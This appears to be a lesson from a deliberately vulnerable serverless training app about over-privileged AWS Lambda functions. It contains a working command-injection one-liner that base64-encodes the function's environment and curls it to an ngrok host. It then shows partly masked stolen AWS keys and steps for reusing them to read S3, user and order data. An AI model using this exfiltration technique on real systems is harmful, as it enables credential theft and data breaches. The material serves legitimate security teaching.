 # LESSON #7: Over-Privileged Function

Maybe one of the most fundamental security vulnerabilities in serverless applicaiton are over-privileged functions. [Previous research](https://www.protego.io/protego-labs-finds-nearly-all-serverless-application-functions-at-risk/) has found that almost all functions are configured with more permissions than what they actually need.

Let's see what we can do with that:

We already saw that one of the functions is vulnerable to command injection through an [insecure s3 configuration](../LESSONS/LESSON_04.md), so we can leverage that and steal the function's keys. By stealing the keys (AWS_SESSION_TOKEN, AWS_SECRET_ACCESS_KEY and AWS_ACCESS_KEY_ID), we will be able to assume the function's temporary execution role.

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;b=`env|base64 --wrap=0`;curl 0c971764.ngrok.io?data=$b;echo x.raw' --profile hacker
```

It's not hard to find the relevant keys in the base64 string that we got:

![alt base64-keys](https://i.imgur.com/ig8iV2J.png)

Decoding them (```echo <BASE64> | base64 --decode```) will reveal (partial info):
```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=FQXXXXXXXXXXXXXXXPJnxYa8D85UCLwAXXXXXXXXXXXXXXXRUkQWDwu4NMqrE+dcRXXXXXXXXXXXXXXXrTB6PxZzyfw0pDFUJHXXXXXXXXXXXXXXXAFfF6kR5AjFSQd/SkjymXXXXXXXXXXXXXXXO+1JfHtJBFqwI7VnaHMcCoDp4O/WcXXXXXXXXXXXXXXXCNW886DrHxciDCXXXXXXXXXXXXXXXZt3k9f3WuwI/FfXXXXXXXXXXXXXXXp43gtQYe3IV1sCpPs/kUneXXXXXXXXXXXXXXXiZGU63V79bpu/Dt3fzO0eSHAO6ii4t9/gBQ==
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/DVSA-SEND-RECEIPT-EMAIL
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/12/23/[$LATEST]ce7961b403ba4b47806460db4bc62944
AWS_EXECUTION_ENV=AWS_Lambda_python2.7
AWS_LAMBDA_FUNCTION_NAME=DVSA-SEND-RECEIPT-EMAIL
PATH=/usr/local/bin:/usr/bin/:/bin:/opt/bin
SOURCE_EMAIL=tal+dvsa+noreply@protego.io
AWS_DEFAULT_REGION=us-east-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xxxxxxxxxxxxxxxI8g7+XkMv/6tuC7xxxxxxxxxx
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=us-east-1
ORDERS_TABLE=DVSA-ORDERS-DB
AWS_ACCESS_KEY_ID=ASIAYXXXXXXXXXXXXXXX
PYTHONPATH=/var/runtime
_HANDLER=lambda_function.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=256
```
Let's copy the relevant data into environment variables:
```
export AWS_SECRET_ACCESS_KEY = "..."
export AWS_ACCESS_KEY_ID = "..."
export AWS_SESSION_TOKEN = "..."
```

Or, into our AWS credentials - ~/.aws/credentials (which is my preferit):
![alt stolen-keys](https://i.imgur.com/tFXFZEj.png)

By default, temporary security credentials for an IAM user are valid for a maximum of 12 hours (and therefore, long gone in the screenshot). In this time frame, we can use these keys to run any AWS command that is aligned with the functions permissions. Since the function is (way) over-privileged, we can start stealing sensitive data and performing actions on the account.

For example:

(1) lisitng all files on s3:
![alt ls-bucket](https://i.imgur.com/Cg8cBYs.png)

(2) downloading a file from the bucket:
![alt download-receipt](https://i.imgur.com/3hMxfZP.png)

We can of course, also delete files. But, we are not limited to the S3! Let's explore further:

(3) leaking all users:
![alt leak-users](https://i.imgur.com/JVkreVB.png)

(4) orders from dynamodb:
![alt leak-orders](https://i.imgur.com/WdBSzVG.png)

And many more. I'll leave that to you to explore.







